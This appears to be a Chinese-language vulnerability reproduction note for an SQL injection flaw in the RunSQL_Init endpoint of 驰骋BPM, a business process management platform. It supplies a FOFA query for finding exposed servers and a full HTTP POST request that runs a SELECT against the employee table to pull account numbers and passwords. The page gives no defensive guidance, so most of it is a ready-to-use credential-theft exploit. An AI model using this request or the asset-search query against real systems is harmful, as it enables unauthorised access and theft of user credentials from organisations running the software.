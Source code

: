 # 驰骋BPM RunSQL_Init存在SQL注入漏洞

# 一、漏洞简介
驰骋BPM是一款功能强大的业务流程管理平台，可提供可视化的设计界面和灵活的流程配置，帮助企业轻松构建、管理和优化各类业务流程。驰骋BPM RunSQL_Init存在SQL注入漏洞，攻击者可通过该漏洞获取账号密码。

# 二、影响版本
+ 驰骋BPM

# 三、资产测绘
+ fofa`body="/WF/AppClassic/Home.htm"`
+ 特征

![1723125316153-028df4e8-8d0c-4914-95e3-5fce485c6535.png](./img/xmBRbQspfgDUagT5/1723125316153-028df4e8-8d0c-4914-95e3-5fce485c6535-202430.png)

# 四、漏洞复现
```plain
POST /WF/Comm/Handler.ashx?DoType=RunSQL_Init HTTP/1.1
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Accept-Ldwk: bG91ZG9uZ3dlbmt1
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Length: 160
Content-Type: multipart/form-data; boundary=----123128312312389898yd98ays98d
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36

------123128312312389898yd98ays98d
Content-Disposition: form-data; name="SQL"

SELECT No,Pass FROM Port_Emp
------123128312312389898yd98ays98d--
```

![1723125347422-b5c92bda-6742-4924-97dd-db99687877ee.png](./img/xmBRbQspfgDUagT5/1723125347422-b5c92bda-6742-4924-97dd-db99687877ee-419982.png)

![1723125358177-e60f1d03-f1e7-44df-801d-aa9dfe0884e2.png](./img/xmBRbQspfgDUagT5/1723125358177-e60f1d03-f1e7-44df-801d-aa9dfe0884e2-311837.png)



> 更新: 2024-08-12 17:15:57  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/lbie8f0kg63bbhee>